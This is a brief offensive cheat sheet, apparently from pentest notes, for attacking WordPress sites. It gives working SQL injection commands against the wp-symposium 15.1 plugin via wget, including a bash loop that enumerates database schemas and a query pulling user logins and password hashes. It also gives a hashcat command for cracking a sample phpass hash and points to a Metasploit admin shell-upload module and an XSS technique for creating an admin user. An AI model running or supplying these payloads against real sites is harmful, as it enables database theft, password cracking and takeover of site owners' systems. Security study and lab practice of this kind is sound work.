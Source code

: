 ## SQLi

{% code overflow="wrap" fullWidth="true" %}
```sql
select user_login,user_pass from wp_users

https://sudonull.com/post/7030-50-shades-of-token
└─$ wget "http://192.168.69.23/wordpress/wp-content/plugins/wp-symposium-15.1/get_album_item.php?size=version() ; --" -O output.txt                                    

wget -q -O- 192.168.102.10/wp-content/plugins/wp-symposium-15.1/get_album_item.php?size=* from token; --"

#!/bin/bash
for  ((i=0;  i<= 10; i++))
do
wget --no-proxy  -q -O-  "http://192.168.102.10/wp-content/plugins/wp-symposium-15.1/get_album_item.php?size=SCHEMA_NAME  FROM INFORMATION_SCHEMA.SCHEMATA limit 1 offset $i; --"echo""done
```
{% endcode %}

## Crack hashes

```sh
$P$984478476IagS59wHZvyQMArzfx58u.
hashcat -m 400 hashes rockyou.txt
```

## Metasploit

`wp_admin_shell_upload` module

## XSS admin user

[https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)
